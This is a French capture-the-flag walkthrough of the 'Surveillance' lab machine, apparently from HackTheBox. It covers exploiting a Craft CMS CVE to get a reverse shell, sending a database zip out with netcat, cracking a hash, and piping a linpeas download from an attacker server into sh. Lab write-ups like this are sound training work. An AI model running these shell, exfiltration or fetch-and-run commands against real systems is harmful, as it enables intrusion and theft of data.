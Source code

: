# Surveillance

## Process

On est lancer sur une adresse ip sur la quelle on a accés a un site web.
Aprés un `dirsearch` sur le domaine de la machines. On tombe sur un directory qui pourra nous etre utils: `/administrator/login`

Une fois rajouter l'extension au domaine on tombe sur une page login sur la quelle on peut lire `craft CMS`.

Partons à la recherche d'une CVE de en rapport avec ce CMS.
On tombe sur la `CVE-2023-41892`.<br/>

En y allant un peu a l'aveugle on part à la recherche d'un exploit de cette cve et on tombe sur un git hub qui nous donne un script a executer je creer un fichier .py et entre le script a l'intérieur.

```bash
python3 cve-2023-41892.py http://surveillance.htb [mon-ip] 443
```

Tout en lançant avant cela un ncat:

```bash
nc -lvnp 443
```

En lançant le script celui ci me renvoi un shell sur le ncat.

Je lance directement:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ce qui me donnent un shelle stable.

Aprés de multiple recherche des piste bien différente les une des autre des hash impossible a crack... je tombe sur un fichier zip que je décide de télécharger.

Je lance donc une commande nc pour recevoir un fichier avec un fichier de destination.

```bash
nc -lvnp 443 > db.zip
```

Puis je lance le téléchargement du fichier sur la machine distante prenans la destination puis le fichier a télécharger.

```bash
nc -w 3 [mon-ip] 443 < surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

Maintenant que je l'ai recu je l'unzip et je vais analyser ce fichier.
Je trouve dans le fichier un hash dans la table `users`.
Je le copie et créer un fichier `hash.txt`.
Le type du hash aprés un rapide passage sur `hash analyzer`: est `SHA2-256` je lance donc un hascat:

```bash
hashcat -m1400 hash.txt /usr/share/wordlists/rockyou.txt
```

Cracked password: `***************`

On est donc connecter a la machines via le ssh!! Maintenant! 

## Root Flag

Bizarrement facile pour le user nous allons voir comment cela ce passe pour le root.

Donc pour commencer je décide de télécharger `linpeas` sur la machine afin de voir si celui ci trouve un fichier sur le quelle nous pourrions passer.

Je télécharge donc linpeas sur ma machines, [source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Une fois télécharger je lance un serveur.

```bash
python3 -m http.server 80
```

En ouvrant ce serveur je peut lancer cette commande qui pourras donc en précisant l'ip et le chemin a suivre allé télécharger linpeas sur la machines distante.

```bash
curl [mon-ip]/home/user/Documents/outils/peass/linpeass.sh | sh
```

Maintenant qu'il est présent sur la machines je le lance.
On ne sait jamais avant de ce lancer dans une recherche interminable.🤞

Beaucoup de chose a analyser apparaissent c'est parti pour la recherche.<br/>

